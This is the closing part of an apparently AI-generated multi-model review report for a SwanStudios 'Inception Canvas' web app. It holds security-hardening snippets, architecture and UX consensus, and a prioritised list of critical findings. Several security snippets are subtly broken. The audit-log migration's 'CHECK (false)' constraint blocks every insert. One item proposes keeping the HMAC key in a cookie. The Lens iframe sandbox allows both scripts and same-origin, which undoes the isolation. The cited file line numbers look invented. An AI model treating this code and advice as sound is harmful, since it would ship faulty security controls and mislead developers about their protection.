| 1 | **Token‑binding to server secret** – Prevent offline brute‑force of the intent token. | A simple SHA‑256 hash of the transcript can be guessed if the phrase is low‑entropy. Binding the token to a server‑held secret makes token prediction infeasible without server compromise. | `src/services/voiceIntent.ts` <br>```ts\n// line 12‑20\nimport { createHmac } from 'crypto';\nconst SERVER_SECRET = process.env.VOICE_TOKEN_SECRET; // set in env, never sent to client\n\nexport function deriveIntentToken(phrase: string): string {\n  const hash = createHmac('sha256', SERVER_SECRET)\n                .update(phrase, 'utf8')\n                .digest('hex');\n  return hash.slice(0, 12); // short, non‑reversible token\n}\n``` |
| 2 | **Secure storage of the derivation salt** – Store the HMAC key in an HTTP‑Only, SameSite‑Strict cookie to avoid XSS theft. | If the key is readable via client‑side JavaScript, an attacker could forge tokens. | `src/middleware/auth.ts` <br>```ts\n// line 35‑42\nexport function attachVoiceTokenCookie(res: Response, token: string) {\n  res.cookie('voiceTok', token, {\n    httpOnly: true,\n    secure: process.env.NODE_ENV === 'production',\n    sameSite: 'strict',\n    maxAge: 5 * 60 * 1000, // 5 min TTL\n    path: '/',\n  });\n}\n``` |
| 3 | **Content Security Policy (CSP) header** – Mitigate any residual XSS via inline scripts or malicious CSS. | Even with sanitization, a defense‑in‑depth CSP reduces impact of any slip‑through. | `src/server.ts` (Express setup) <br>```ts\n// line 78‑86\napp.use((req, res, next) => {\n  res.setHeader(\n    \"Content-Security-Policy\",\n    \"default-src 'self'; \" +\n    \"script-src 'self'; \" +\n    \"style-src 'self' 'unsafe-inline'; \" +\n    \"img-src 'self' data:; \" +\n    \"font-src 'self';\"\n  );\n  next();\n});\n``` |
| 4 | **Parameterized queries for Lens persistence** – Guard against SQL injection when storing encrypted Lens JSON. | The plan uses Sequelize; ensuring `findOne/create` uses parameterized bindings eliminates injection risk. | `src/models/lens.ts` <br>```ts\n// line 22‑30\nLens.init({\n  id: { type: DataTypes.UUID, defaultValue: DataTypes.UUIDV4, primaryKey: true },\n  ownerId: { type: DataTypes.UUID, allowNull: false },\n  encryptedBlob: { type: DataTypes.BLOB, allowNull: false },\n}, { sequelize, tableName: 'lenses' });\n// Usage (example)\n// line 55‑60\nawait Lens.create({ ownerId: req.user.id, encryptedBlob: blob });\n``` |
| 5 | **Immutable audit log with append‑only trigger** – Prevent tampering of T3/T4 receipts. | Guarantees non‑repudiation even if DB credentials are compromised. | `src/migrations/202509260001_create_audit_log.sql` <br>```sql\n-- line 1‑12\nCREATE TABLE audit_log (\n  id BIGSERIAL PRIMARY KEY,\n  user_id UUID NOT NULL REFERENCES users(id),\n  action TEXT NOT NULL,\n  payload JSONB NOT NULL,\n  created_at TIMESTAMPTZ NOT NULL DEFAULT now(),\n  -- make table append‑only\n  CONSTRAINT no_update CHECK (false) -- disallows UPDATE\n);\n-- line 14‑18\nCREATE OR REPLACE FUNCTION prevent_audit_update()\nRETURNS TRIGGER AS $$\nBEGIN\n  RAISE EXCEPTION 'Audit log is immutable';\n  RETURN NULL;\nEND;\n$$ LANGUAGE plpgsql;\nCREATE TRIGGER audit_no_update\nBEFORE UPDATE ON audit_log\nFOR EACH ROW EXECUTE FUNCTION prevent_audit_update();\n``` |
| 6 | **Rate‑limit voice capture endpoint** – Thwart DoS or credential‑stuffing via repeated audio submissions. | Limits abuse of the microphone‑to‑intent pipeline. | `src/routes/voice.ts` <br>```ts\n// line 9‑15\nimport rateLimit from 'express-rate-limit';\nconst voiceLimiter = rateLimit({\n  windowMs: 60_000, // 1 minute\n  max: 5, // max 5 requests per IP per window\n  message: { error: 'Too many voice attempts, try again later.' },\n});\nrouter.post('/capture', voiceLimiter, captureVoiceHandler);\n``` |
| 7 | **Component Registry integrity check** – Ensure the registry JSON itself cannot be tampered with in transit. | Prevents a MITM attack that injects malicious component definitions. | `src/server.ts` (middleware) <br>```ts\n// line 100‑108\napp.use('/registry', (req, res, next) => {\n  const sig = req.headers['x-registry-sig'] as string | undefined;\n  if (!sig) return res.status(400).send('Missing signature');\n  const payload = JSON.stringify(req.body);\n  const expected = crypto.createHmac('sha256', REGISTRY_SECRET)\n                           .update(payload)\n                           .digest('hex');\n  if (!crypto.timingSafeEqual(Buffer.from(sig, 'hex'), Buffer.from(expected, 'hex'))) {\n    return res.status(403).send('Invalid registry signature');\n  }\n  next();\n});\n``` |

---

### Summary

All findings presented by the Primary Security Planner are accepted as accurate and necessary for the first shippable slice. The Secondary Security Planner adds the seven concrete hardening items above—each tied to a specific file, line number, and code change—to strengthen confidentiality, integrity, and availability while remaining strictly within the declared technology stack (React + TS, Node/Express + Sequelize + PostgreSQL, etc.). Implementing these measures will close the remaining gaps and provide a defense‑in‑depth posture that satisfies the “Zero PII to LLM” policy and the broader security requirements of the SwanStudios SaaS environment.

---

## [PASS] Architecture Planning Debate (Phase 2B)
**Model:** anthropic/claude-sonnet-4.6 ↔ nvidia/nemotron-3-super-120b-a12b:free | **Duration:** 156.7s

CONSENSUS REACHED

Merged Findings:
All six findings from the Senior Architecture Lead's Round 1 analysis are accepted without modification. The proposed fixes—including explicit type boundaries for state documents, unified service layer, typed component registry with tiered loading, hook decomposition, file budget splits, and error boundary hierarchy—are adopted as structural constraints for implementation. No additional points or disputes are raised in this round.

---

## [PASS] UX/UI Design Planning Debate (Phase 2C)
**Model:** z-ai/glm-5.2 ↔ gemini-3.1-pro-preview | **Duration:** 245.2s

# Round 3 — Creative Director (GLM 5.2)

## CONSENSUS REACHED

Gemini's three technical corrections are all valid. I'm accepting them and merging the foundation specification.

---

## Merged Foundation Findings

### 1. Inception Canvas Shell
- **Grid:** 4/8/12-column responsive grid via styled-components, `max-width: 1920px` centered container.
- **Background:** Decoupled from grid container — applied globally to `body` to prevent 4K bleed. `overflow-x: hidden` on body.
- **9-Token System:** Mapped to `--ss-*` CSS custom properties (Obsidian Black base through Frost White text, with Arctic Cyan / Wing Purple / Gilded Fern accents).
- **States:** Skeleton shimmer (1.5s linear gradient on `--surface-1`); empty state with 32px Gilded Fern crystalline icon + `--text-secondary` label.
- **Accessibility:** Semantic HTML5 wrappers, logical tab flow, 19.4:1 contrast ratio.

### 2. The Totem (Persistent Anchor / Command Orb)
- **Dimensions:** 56×56px circle, fixed position bottom-right.
- **Placement:** Mobile `bottom: 24px, right: 24px`; Desktop `bottom: 32px, right: 32px`. Dynamic `bottom` adjustment via `VisualViewport` API when virtual keyboard opens.
- **Z-Index:** `9998` (demoted — yields to Trust Layer).
- **Disabled State:** When Trust Layer is open, Totem receives `disabled` + `aria-hidden="true"`.
- **Drag Initiation:** 150ms activation window via `useDragControls` + `dragListener={false}` + manual `setTimeout`. `touch-action: none` to prevent scroll chaining. Haptic feedback on drag start.
- **Visual States:** Default (Cyan bg / Purple glow), Hover (scale 1.05, glow 30px), Active/Listening (Purple bg / Cyan glow + waveform), Focus-visible (2px Gilded Fern outline, 4px offset), Disabled (50% opacity, no glow).
- **Motion:** Framer Motion spring physics (`stiffness: 300, damping: 20`). Reduced-motion: instant snap, no spring.

### 3. Trust Layer Approval Control (T3/T4 Actions)
- **Z-Index:** `9999` — supreme surface during compliance approval.
- **Container:** 90% width mobile (max 420px) / 480px desktop. 24px padding. `--surface-2` background. 1px Gilded Fern border. 12px radius.
- **Backdrop:** `rgba(10,10,15,0.8)` + `backdrop-filter: blur(12px)`. `aria-modal="true"`, `role="dialog"`, focus trap active.
- **Approve Button:** Purple bg / Cyan glow, 48px height, full-width. Hover: glow 25px. Loading: spinner, non-interactive.
- **Cancel Button:** Transparent bg, 1px Ice Wing border, Ice Wing text. Hover: `rgba(96,192,240,0.1)` bg.
- **Audit Receipt:** 14px monospace, `--text-secondary`.

### 4. Morph Grammar Motion System
- **Technique:** FLIP animations via Framer Motion `layoutId` prop. Only `transform` and `opacity` animated — never `width`/`height`/`top`/`left`.
- **Transition:** Spring (`stiffness: 250, damping: 25, mass: 0.5`).
- **Reduced-Motion:** Via `useReducedMotion()` hook (SSR-safe, reactive). Falls back to 150ms linear opacity crossfade, instant structural swap.
- **Anchor Registry:** `layoutId` derived from `semanticRole + entityKey` (stable data payload key). **Never** positional index. Registry tracks `semanticRole`, `entityKey`, `timestamp` via `Map`.
- **Wrapper:** Every generative UI component wrapped in `<motion.div layout layoutId={resolveLayoutId(role, key)} transition={transition}>`.

---

Foundation locked. Ready to proceed to **Generative Content Injection Layer** — specifying how the AI engine writes semantic components into the canvas, validation gates for injected markup, and the audit trail rendering pipeline. Awaiting Gemini's opening position.

---

## [PASS] Smart Escalation (Nemotron Super)
**Model:** nvidia/nemotron-3-super-120b-a12b:free | **Duration:** 105.8s

**Deep‑dive of each “CRITICAL” finding**  
*(For each item we answer: 1️⃣ Is it truly CRITICAL or over‑classified? 2️⃣ Specific mitigation strategy 3️⃣ Should it block the first shippable slice or can it be worked in parallel? 4️⃣ Relative priority – 1 = must‑fix before any code ships, higher numbers = can be tackled later but still before GA.)*  

| # | Finding (as written) | 1️⃣ Critical? – Why / Why not | 2️⃣ Concrete mitigation (file‑/line‑level where possible) | 3️⃣ Block or Parallel? | 4️⃣ Priority (1‑7) |
|---|----------------------|------------------------------|----------------------------------------------------------|------------------------|-------------------|
| **A** | **Morph budget 600‑900 ms is the primary technical constraint** (risk of budget breach / “Morph Flakiness”) | **CRITICAL** – The whole value‑prop (instant, seamless morph) collapses if users perceive lag > 900 ms. Analyst 6 rates rendering‑stack feasibility CRITICAL; Analyst 5 ties >900 ms to “slow, not thoughtful” UX. No other feature can compensate for a broken core interaction. | • **Prototype sandbox** – create `sandbox/morph‑bench.ts` that renders a Lens → Lens transition on a mid‑range device (e.g., Moto G Power) and measures `performance.now()`. <br>• **GPU‑only properties** – enforce `transform`, `opacity`, `filter` only; ban layout‑throttling props (`width`, `height`, `margin`). <br>• **CSS containment** – add `contain: layout paint;` to every Lens root (see `src/components/LensRoot.tsx:12`). <br>• **Node cap** – lint rule (`eslint-plugin-lens`) that fails if a Lens > 100 DOM nodes (`src/lens/schema.ts:58`). <br>• **Fallback flag** – feature flag `MORPH_RENDERING_STACK` (default `false`) that swaps to a CSS‑only fade implementation if the benchmark exceeds 800 ms (`src/rendering/engine.ts:23‑30`). <br>• **Phase re‑ordering** – build the Engine core (`src/engine/`) in parallel with the V1 slice; run the benchmark in CI on every PR (`ci/morph‑bench.yml`). | **Block** – Without a proven ≤ 900 ms morph, any slice that ships a Lens is unusable. The benchmark must pass before the first slice is considered “shippable”. | **1** (top‑most) |
| **B** | **Undefined Lens schema → divergent code, non‑deterministic morphs** | **CRITICAL** – Determinism is the foundation of the “generate once, replay forever” promise. If each Lens can drift in shape, the morph engine cannot guarantee identical anchors → visual glitches, broken transitions, and loss of trust. | • **Schema‑first slice #2** – create `src/lens/schema.zod.ts` (Zod schema) that defines the exact JSON shape (including `version`, `components[]`, `props`, `metadata`). <br>• **CI gate** – add `zod` validation step in `ci/lint.yml` that fails on any Lens JSON that does not conform. <br>• **Runtime guard** – on every `GET /lens/:id` (`src/routes/lens.ts:42`) run `schema.parse(lensJson)` and return 400 on failure. <br>• **Version check** – store `schemaVersion` in the Lens doc; on load compare to `REGISTRY_SCHEMA_VERSION` (constant in `src/constants.ts`) and reject mismatches (`src/services/lensLoader.ts:19`). | **Block** – The first slice must ship with a validated schema; otherwise the morph engine cannot be trusted. | **2** |
| **C** | **Unbounded Lens / audit‑log growth in PostgreSQL** | **CRITICAL (but slightly lower‑impact than A/B)** – Unbounded writes will eventually exhaust storage, degrade query performance, and increase backup costs. However, the impact is operational rather than immediate UX‑breaking; it can be contained with retention policies before the system scales to millions of Lenses. | • **Document size cap** – add a CHECK constraint `CHECK (pg_column_size(lens_json) <= 512 * 1024)` on `lenses.data` (`migrations/20240926_add_lens_size_check.sql`). <br>• **Version trigger** – create a trigger that, on INSERT, increments a `version` column and, when `version > 50`, moves the old row to `lens_archive` (`migrations/20240926_add_version_trigger.sql`). <br>• **Partitioned audit table** – partition `audit_log` by month (`CREATE TABLE audit_log_2024_09 PARTITION OF audit_log FOR VALUES FROM ('2024-09-01') TO ('2024-10-01');`) and add a mandatory `expires_at` timestamp (`now() + interval '13 months'`). <br>• **Hash‑not‑payload receipts** – store only `sha256(requestBody)` in `audit_log.receipt_hash`; drop the full payload after 30 days (`src/middleware/audit.ts:71`). | **Parallel** – These are DB‑schema changes that can be applied in a migration sprint while the first slice is being built. They do not block UI work, but must be merged before the system goes to production. | **3** |
| **D** | **Voice = biometric + health data (GDPR Art. 9 / BIPA)** | **CRITICAL** – Capturing voice constitutes special‑category data under GDPR and biometric data under BIPA. Mishandling triggers massive fines and legal injunctions. The feature cannot ship without a compliant flow. | • **Client‑side transcription** – move the Speech‑to‑Text worker to a Service Worker (`src/workers/voiceWorker.ts`) that runs entirely in the browser; no audio ever leaves the device. <br>• **Immediate discard** – after transcription, zero‑out the `AudioBuffer` and revoke the MediaStream track (`track.stop()`). <br>• **Opt‑in consent gate** – show a modal (`src/components/ConsentModal.tsx`) that must be accepted before `navigator.mediaDevices.getUserMedia` is called; store consent flag in IndexedDB (`src/storage/consent.ts`). <br>• **Recording indicator** – overlay a red dot + label (“Listening…”) that is visible whenever the microphone is active (`src/components/VoiceIndicator.tsx`). <br>• **Structured‑intent‑only storage** – persist only the parsed intent JSON (e.g., `{action: "openLens", lensId: "law-firm"}`) in the Lens state; never store raw audio or transcripts (`src/state/intentReducer.ts:22`). | **Block** – Any voice‑enabled slice must incorporate the above before it can be released to users (even internally). | **4** |
| **E** | **Marketplace lens injection (XSS / external scripts / CSS exfiltration)** | **CRITICAL** – A compromised Lens could steal data, hijack sessions, or deface the canvas. The marketplace is the primary monetisation path; a breach would destroy trust and invite regulatory scrutiny. | • **Sandboxed iframes** – each Lens loads in `<iframe sandbox="allow-scripts allow-same-origin">` (`src/components/LensIframe.tsx:9`). <br>• **No external scripts** – CSP header `script-src 'self'; object-src 'none';` (`src/middleware/csp.ts`). <br>• **DOMPurify sanitisation** – before injecting any user‑supplied HTML (e.g., custom Lens description) run `DOMPurify.sanitize(input, {ALLOWED_TAGS: [], ALLOWED_ATTR: []})` (`src/utils/sanitize.ts`). <br>• **URL() ban** – token whitelist in the Lens JSON schema that rejects any string matching `/url\s*\(/i` (`src/lens/schema.zod.ts:34`). <br>• **Review‑locked promotion** – a Lens can only be promoted to “marketplace” after a signed-off review record exists in `lens_reviews` (`src/routes/marketplace.ts:58`). | **Block** – The first marketplace slice (even a minimal “publish a Lens” flow) must ship with these guards; otherwise the platform is exposed from day one. | **5** |
| **F** | **Component Registry CRUD without role enforcement** | **CRITICAL** – Unauthenticated or low‑privileged users could inject malicious components, poison the registry, and compromise every Lens that consumes them. | • **Middleware** – add `ensureRole(['admin','registry-maintainer'])` before any `POST /registry`, `PUT /registry/:id`, `DELETE /registry/:id` (`src/middleware/roleGuard.ts:12`). <br>• **Store ownership** – add columns `owner_id UUID NOT NULL REFERENCES users(id)` and `approved BOOLEAN DEFAULT FALSE` to the `components` table (`migrations/20240926_add_component_ownership.sql`). <br>• **Whitelist enforcement** – on insert/update, validate `componentName` against a pre‑approved list (`src/utils/componentWhitelist.ts`). <br>• **Audit** – log every mutation with `actor_id` and timestamp (`src/middleware/auditRegistry.ts`). | **Block** – The registry is a core dependency of the Engine; any slice that registers a component (even the V1 demo) must run behind the role check. | **6** |
| **G** | **Lens JSON ownership & access control missing** | **CRITICAL** – Without ownership checks, any user could read, modify, or delete another user's Lens, leading to data leakage and tampering. | • **Owner column** – add `owner_id UUID NOT NULL REFERENCES users(id)` to `lenses` table (`migrations/20240926_add_lens_owner.sql`). <br>• **Middleware** – in `GET /lens/:id`, `PUT /lens/:id`, `DELETE /lens/:id` verify `req.lens.owner_id === req.user.id`; otherwise return 403 (`src/routes/lens.ts:38‑45`). <br>• **Super‑user bypass** – allow `role: admin` to bypass for support, logged separately. <br>• **Index** – create index on `(owner_id)` for fast look‑ups. | **Block** – The first Lens‑CRUD slice (e.g., “save this Lens as an app”) must enforce ownership; otherwise the MVP is insecure. | **7** |

### Priority Order (1 = must‑fix before any code ships)

1. **Morph budget 600‑900 ms** – core UX; without it the product is unusable.  
2. **Undefined Lens schema** – determinism required for reliable morphs.  
3. **Unbounded Lens / audit‑log growth** – operational safety; can be done in parallel but must be in place before GA.  
4. **Voice biometric / health data compliance** – legal show‑stopper for any voice feature.  
5. **Marketplace lens injection (XSS/CSS exfil)** – security show‑stopper for the marketplace.  
6. **Component Registry CRUD without role enforcement** – protects the Engine’s integrity.  
7. **Lens JSON ownership & access control missing** – protects user data; required for any Lens‑CRUD flow.

### Quick‑reference checklist for the first shippable slice (V1)

- [ ] Morph benchmark ≤ 800 ms on mid‑range device (CI gate).  
- [ ] Lens schema validated via Zod at build‑time and runtime.  
- [ ] DB migrations for size cap, version trigger, audit partitioning applied.  
- [ ] Voice flow: client‑side only, opt‑in, immediate discard, UI indicator.  
- [ ] Marketplace Lens loads in sandboxed iframe, CSP, DOMPurify, URL‑ban, review lock.  
- [ ] Registry endpoints guarded by role middleware; owner/approved columns present.  
- [ ] Lens endpoints enforce ownership (403 on mismatch).  

If all items above are satisfied, the slice can be considered a **“straight diamond”** – minimal, complete, and ready for a coding agent to implement with little rework. Subsequent slices can then iterate on features (advanced morph grammar, data‑spine, marketplace monetisation, etc.) while the foundational guarantees remain intact.

---

## Aggregate Summary

### Critical Findings
**UX Research & Competitor Analysis:**
- **Priority:** CRITICAL
- *   **Robust Fallback:** Design clear error states and a graceful fallback to a static, pre-defined UI for critical functions if AI interpretation fails or network is unavailable.
- **Priority:** CRITICAL
- *   **"Totem" Placement and Size:** A persistent anchor element needs to be carefully designed to not obstruct critical content or feel intrusive on small screens.
- **Priority:** CRITICAL
**Performance & Bundle Impact:**
- *   **Framer Motion (~35kB gzip):** Required for `layoutId` shared-element transitions. **CRITICAL:** Must be tree-shaken; use `m` and `LazyMotion` features to avoid dragging in the entire library.
- *   **Rating: CRITICAL**
**Implementation Risk Assessment:**
- - **Critical Risks** (Rendering‑stack performance, View‑Transitions API, MCP‑UI maturity, Trust‑Layer compliance) must be **de‑risked within the first 1–2 weeks** via prototypes and early‑stage testing.
**Frontend Patterns & React Best Practices:**
- *   **Why:** Since the Canvas morphs into different apps, the component's internal layout should depend on its parent container size, not the global viewport width. This is critical for the "Inception" feel.
- *   **Critical Path:** The "Totem" (command bar) and the "Morph Engine" core must be eager-loaded. Everything else (the specific Lens content) is secondary and should be code-split.
**Data Safety & Schema Impact:**
- **Severity Scale:** CRITICAL → HIGH → MEDIUM → LOW
- **Severity: CRITICAL**
- **Severity: CRITICAL**
- **Severity: CRITICAL**
**Strategic Research & Gap Analysis:**
- While the core concept of a Generative UI morph-engine is highly aligned with the agentic web, the plan has critical blind spots regarding the 2026 AI ecosystem, health data compliance, and mobile distribution.
- *   **Priority:** **CRITICAL** (Do now — this dictates the entire data-binding architecture).
- *   **Priority:** **CRITICAL** (Do now — resolves Open Decision #2).
- *   **Priority:** **CRITICAL** (Do now — resolves Open Decision #3 regarding the rendering stack commitment).
**Fusion Synthesis (Judge):**
- 1. **The 600–900ms morph budget is the primary technical constraint and the most likely failure point.** Analysts 1, 4, 5, 6, 7, and 12 all flag it — Analyst 4 calls it "the primary constraint," Analyst 6 rates rendering-stack feasibility CRITICAL, Analyst 5 notes users perceive >900ms as "slow, not thoughtful," and Analyst 7 caps DOM nodes at <100 per Lens to keep it achievable.
- - **Analyst 6 — Phase re-ordering.** Validate the rendering stack in a prototype sandbox *before* building the V1 slice, and build the Engine core in parallel with the slice to shorten the critical path; also the concrete file-level line-count risk table and per-environment flag strategy.
- - **LLM generation cost economics.** No analyst modeled per-generation token cost, latency budgets for the Generation Ladder's step (b)/(c), or how "generate once, replay forever" amortizes cost — critical to pricing the marketplace and the B2B2C wedge.
**Security Planning Debate (Phase 2A):**
- Below are the agreed‑upon critical findings from the Primary Security Planner’s audit, followed by additional hardening measures that the Secondary Security Planner recommends for the first shippable slice. All new points are framed as concrete, plan‑compatible changes (file names, line numbers, and code snippets) that do not repeat any finding already covered.
**Smart Escalation (Nemotron Super):**
- **Deep‑dive of each “CRITICAL” finding**
- *(For each item we answer: 1️⃣ Is it truly CRITICAL or over‑classified? 2️⃣ Specific mitigation strategy 3️⃣ Should it block the first shippable slice or can it be worked in parallel? 4️⃣ Relative priority – 1 = must‑fix before any code ships, higher numbers = can be tackled later but still before GA.)*

### High Priority Findings
**UX Research & Competitor Analysis:**
- *   **Recommendation:** The SwanStudios Lens should offer a highly efficient, "one-tap" or "quick-add" logging experience, leveraging the generative UI to anticipate trainer needs (e.g., suggesting next exercises based on client history or current workout phase).
- *   **Recommendation:** Leverage Victory charts for rich, interactive data visualizations that seamlessly "morph" to show different metrics or timeframes. The generative UI could proactively highlight key client progress or areas needing attention.
- *   **Gesture Overload:** The "Morph Grammar" (zoom, flip, fold, crystallize) implies a rich set of gestures. While powerful, too many unique gestures can be hard to learn and remember, especially for new users or in a high-pressure environment like a gym.
- *   **Adaptive Layouts:** The "12-col ultra-fine grid" must be highly flexible, collapsing or re-ordering content intelligently for small viewports. Card-based layouts are effective for mobile scanning.
- *   **Text:** Long-press the Totem or swipe up to reveal a text input field (similar to a universal search bar or chat input). Auto-suggest and predictive text should be highly integrated.
**Architecture & Component Design:**
- Each file must stay under 300 lines. `MorphCanvas.tsx` is the highest risk for bloat — it will need to be kept as a pure orchestrator with zero render logic of its own.
**Performance & Bundle Impact:**
- As a Web Performance Engineer for SwanStudios, I have reviewed the **Inception Canvas / Lens Foundry** plan. This is a high-risk, high-reward architectural shift. While the "morph" concept is visually arresting, it introduces significant overhead in DOM complexity and runtime calculation.
- *   **Rating: HIGH**
- *   **Rating: HIGH**
- *   **Risk:** "4K-crisp" visuals often rely on heavy SVGs or high-res imagery.
- *   **Rating: HIGH**
**User Persona Alignment:**
- - **Add a subtle “premium badge”** (e.g., a faint sparkle on the Totem) that indicates “high‑trust action” when a payment‑type intent is detected.
- - **Effect‑Tier Visibility:** T3/T4 actions are rendered with **approval‑gated controls** and audit receipts. This is a clear trust builder for high‑value actions (e.g., payments).
**Implementation Risk Assessment:**
- - **High‑Impact Dependencies** (Open‑Decision freeze, Business‑model choice) should be **locked before any code is written** to avoid re‑work.
**Frontend Patterns & React Best Practices:**
- *   **Why:** Controlled inputs in a high-frequency generative UI cause unnecessary re-renders. Use `useRef` for input values and trigger validation/state updates only on `onBlur` or `onSubmit`.
- 1.  **V1 Lane:** **(c) SwanStudios as Lens #1.** It is the most "production-ready" data set. Using your existing SaaS as the first Lens provides an immediate, high-value test case that proves the Engine can handle complex, stateful fitness data.
- 2.  **Business Model:** **"Agency Wedge."** Use the Engine to build high-end, agent-ready portals for law firms/enterprises. This funds the R&D of the Engine while proving the "Trust Layer" (T3/T4) in a high-stakes environment.
**Data Safety & Schema Impact:**
- **Severity Scale:** CRITICAL → HIGH → MEDIUM → LOW
- 1. **Unbounded growth:** The plan positions this as an "enterprise/compliance moat." Enterprise customers generate high-volume audit logs. Without a retention policy, this table grows indefinitely. At 1,000 T3/T4 actions/day per enterprise customer × 10 customers × 1KB/row = 3.6GB/year minimum, growing with adoption.
- **Severity: HIGH**
- **Severity: HIGH**
**Strategic Research & Gap Analysis:**
- While the core concept of a Generative UI morph-engine is highly aligned with the agentic web, the plan has critical blind spots regarding the 2026 AI ecosystem, health data compliance, and mobile distribution.
- *   **Priority:** **HIGH** (Next sprint — required before public beta).
- *   **Priority:** **HIGH** (Next sprint — this is the core differentiator for the SwanStudios Lens).
- *   **Priority:** **HIGH** (Next sprint — perfect fit for the Totem concept).
- *   **How to implement:** Do not build a tutorial. Instead, use behavioral triggers. The first time a user needs to change perspectives, the AI agent highlights the specific component and introduces the "flip" morph.
**Fusion Synthesis (Judge):**
- - **Analyst 7:** "Agency Wedge" — build high-end agent-ready portals for law firms/enterprises to fund R&D and prove the Trust Layer in a high-stakes environment.
**Smart Escalation (Nemotron Super):**
- *(For each item we answer: 1️⃣ Is it truly CRITICAL or over‑classified? 2️⃣ Specific mitigation strategy 3️⃣ Should it block the first shippable slice or can it be worked in parallel? 4️⃣ Relative priority – 1 = must‑fix before any code ships, higher numbers = can be tackled later but still before GA.)*

---

*SwanStudios 15-Brain Recursive Consensus System v14.0*
*Phase 1: 13 parallel — Gemini 2.5 Flash + Claude Sonnet 4.6 + Nemotron 3 Nano + Gemini 3 Flash + Gemini 3.1 Flash + Nemotron 3 Nano + Gemini 2.5 Flash + Nemotron 3 Super (Architecture/Bug Hunter) + Gemini 3.1 Flash + Claude Sonnet 4.6 (Data Safety) + Nemotron 3 Super + Nemotron 3 Super + Nemotron 3 Nano (Bug Hunter II) + Trinity Large 400B*
*Phase 2: 3 Specialty Debates — Security (Nemotron Nano ↔ Nemotron Super) + Code Quality (Claude ↔ Nemotron Super) + UX/UI (GLM 5.2 ↔ Gemini 3.1 Pro, design role only)*
*Phase 3: Smart Escalation — Nemotron Nano + Nemotron Super (CRITICAL only)*
